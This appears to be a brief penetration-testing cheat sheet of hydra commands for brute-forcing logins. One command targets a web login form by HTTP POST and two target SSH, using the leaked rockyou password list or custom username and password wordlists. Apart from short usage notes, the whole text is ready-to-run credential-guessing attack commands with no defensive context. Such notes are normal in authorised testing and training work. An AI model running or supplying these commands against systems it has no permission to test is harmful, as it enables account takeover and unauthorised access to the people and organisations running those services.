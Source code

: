 # bruteforce via post request

rhost contains just the dns or ip. When the form isnt in the root path specify
the url befor *:username*. Text for failed login attempt can be set after
*:F*.

```
hydra -l <username> -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt \
    "$rhost" http-post-form "/:username=^USER^&password=^PASS^:F=incorrect"
```

# bruteforce via ssh

```
hydra -l <username> -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt \
    "$rhost" -t 4 ssh
```

# bruteforce ssh with custom wordlist

```
hydra -L pot-user.txt -P pot-password.txt "$rhost" -t 4 ssh
```
